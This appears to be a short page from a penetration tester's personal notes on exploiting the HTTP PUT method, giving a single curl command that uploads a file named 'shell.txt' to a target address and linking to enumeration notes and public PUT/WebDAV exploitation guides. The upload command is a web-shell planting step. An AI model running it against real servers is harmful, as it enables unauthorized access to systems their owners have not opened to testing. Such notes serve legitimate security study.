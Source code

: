 # Manual

```
$ curl -T 'shell.txt' http[s]://<IP>
```

---
## References

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/A - Information Gathering/02 - Active Fingerprinting/Enumeration via Network Protocols/HTTP/02 - Detecting HTTP Methods/Manual|HTTP Methods Enumeration: Manual]]

- [[PUT Upload]]

- [Hacktricks: PUT Method WebDAV](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/put-method-webdav)

- [Hacking Articles: Multiple Ways to Exploiting PUT Method](https://www.hackingarticles.in/multiple-ways-to-exploiting-put-method/)